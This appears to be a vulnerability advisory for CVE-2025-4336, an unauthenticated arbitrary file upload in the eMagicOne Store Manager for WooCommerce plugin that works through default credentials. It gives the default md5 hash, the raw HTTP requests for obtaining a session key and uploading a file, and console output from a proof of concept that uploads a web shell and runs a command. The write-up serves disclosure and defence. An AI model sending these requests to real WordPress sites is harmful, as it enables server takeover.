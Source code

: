 +++
title = 'eMagicOne Store Manager for WooCommerce <= 1.2.5- Unauthenticated Arbitrary File Upload via set_file Task'
date = 2025-05-23T05:00:12+00:00
hideToc = true
tags = ["CVE", "WordPress", "eMagicOne"]
description = "CVE-2025-4336: WordPress eMagicOne Store Manager plugin unauthenticated file upload vulnerability via default credentials."
+++
### CVE-2025-4336

The [eMagicOne Store Manager for WooCommerce](https://wordpress.org/plugins/store-manager-connector/) plugin exposes a remote management protocol endpoint (`?connector=bridge`) that allows file uploads to the server. The authentication mechanism relies on a default credential pair (`login=1`, `password=1`) and a session key system. If the default credentials are not changed, an attacker can trivially authenticate, obtain a session key, and upload arbitrary files (including PHP shells) to the WordPress root or any writable directory.



## Reproduction
* A POC [cve-2025-4336.py](https://github.com/d0n601/CVE-2025-4336/blob/main/cve-2025-4336.py) is provided to demonstrate a remote attacker uploading a web shell named `shell.php` via the default authentication mechanism, and executing remote code:

```console
python3 exploit.py https://lab1.hacker   
[*] Requesting session key...
[*] Raw response: {"response_code":20,"revision":11,"module_version":"1.2.5","session_key":"6f46bc8b67b1c8f0dc871bcec9e162c1d43f047e5c46aec7d7fdf48d8c17ed69"}
[+] Got session key: 6f46bc8b67b1c8f0dc871bcec9e162c1d43f047e5c46aec7d7fdf48d8c17ed69
[*] Uploading file...
[*] Upload response: {"response_code":20,"message":"File was successfully uploaded"}
[*] Executing Web Shell Commands...
<pre>1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:5b:34:2f brd ff:ff:ff:ff:ff:ff
    altname enp0s3
    inet 10.0.2.15/24 metric 100 brd 10.0.2.255 scope global dynamic eth0
       valid_lft 23576sec preferred_lft 23576sec
    inet6 fd17:625c:f037:2:a00:27ff:fe5b:342f/64 scope global dynamic mngtmpaddr noprefixroute 
       valid_lft 86363sec preferred_lft 14363sec
    inet6 fe80::a00:27ff:fe5b:342f/64 scope link 
       valid_lft forever preferred_lft forever
3: eth1: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:39:ea:eb brd ff:ff:ff:ff:ff:ff
    altname enp0s8
    inet 192.168.56.56/24 brd 192.168.56.255 scope global eth1
       valid_lft forever preferred_lft forever
    inet6 fe80::a00:27ff:fe39:eaeb/64 scope link 
       valid_lft forever preferred_lft forever
4: docker0: <NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 qdisc noqueue state DOWN group default 
    link/ether 02:42:ef:a9:95:6a brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.1/16 brd 172.17.255.255 scope global docker0
       valid_lft forever preferred_lft forever
</pre>
```



## Vulnerable Flow
### Default Credentials and Hash Calculation

On plugin activation, the following constants are set in `smconnector.php`:

```php
define( 'EMO_SMC_DEFAULT_LOGIN', '1' );
define( 'EMO_SMC_DEFAULT_PASSWORD', '1' );
```

The default hash used for authentication is:
```php
'smconnector_hash'   => md5( EMO_SMC_DEFAULT_LOGIN . EMO_SMC_DEFAULT_PASSWORD ),
```
**Result:** The default hash is `md5('1' . '1')` = `c4ca4238a0b923820dcc509a6f75849b`.


### Session Key Acquisition
A session key is obtained by sending a POST request to the bridge endpoint with the hash and a task (e.g., `get_version`):

```http
POST /?connector=bridge
Content-Type: application/x-www-form-urlencoded

hash=c4ca4238a0b923820dcc509a6f75849b&task=get_version
```

**Relevant code:**  
`classes/class-emosmconnectorcommon.php` (lines ~441-525):

```php
private function check_auth() {
    if ( $this->shop_cart->isset_request_param( 'key' ) ) {
        // ... session key validation ...
    } elseif ( $this->shop_cart->isset_request_param( 'hash' ) ) {
        $hash = (string) $this->shop_cart->get_request_param( 'hash' );
        if ( ! $this->is_hash_valid( $hash ) ) {
            // ... error ...
        }
        $key = $this->generate_session_key( $hash );
        // ... return session key ...
    }
}
```

---

### Session Key Storage

The session key is stored in the `wp_smconnector_session_keys` table:

```php
private function generate_session_key( $hash ) {
    $key = hash( 'sha256', $hash . $timestamp );
    $sql = 'INSERT INTO `' . self::TABLE_SESSION_KEYS
        . "` (`session_key`, `date_added`, `last_activity`) VALUES ('" . $this->shop_cart->p_sql( $key ) . "', '"
        . $date . "', '" . $date . "')";
    $this->shop_cart->exec_sql( $sql );
    return $key;
}
```


### Arbitrary File Upload
With a valid session key, an attacker can upload a file using the `set_file` task:

```http
POST /?connector=bridge&task=set_file&key=<session_key>&entity_type=.&filename=hello.txt
Content-Type: multipart/form-data

file=@hello.txt;type=text/plain
```

**Relevant code:**  
`classes/class-emosmconnectorcommon.php` (lines ~2250+):

```php
private function set_file() {
    // ... parameter checks ...
    if ( ! $this->shop_cart->set_file( $entity_type, $filename, self::UPLOAD_FILE_NAME ) ) {
        $this->generate_error( $this->br_errors['upload_file_error'] );
    }
}
```

`classes/class-emosmcwoocommerceoverrider.php` (lines ~440+):

```php
public function set_file( $folder, $filename, $file ) {
    $destination_path = $this->get_shop_root_dir() . "$folder/$filename";
    if ( isset( $_FILES[ $file ]['tmp_name'] ) ) {
        $tmp_name = sanitize_text_field( $_FILES[ $file ]['tmp_name'] );
        $result = move_uploaded_file( $tmp_name, $destination_path );
    }
    if ( $result ) {
        die(json_encode(array(self::CODE_RESPONSE => self::SUCCESSFUL, self::KEY_MESSAGE => 'File was successfully uploaded')));
    }
}
```

**Result:** The file is written to the WordPress root (or any specified directory).
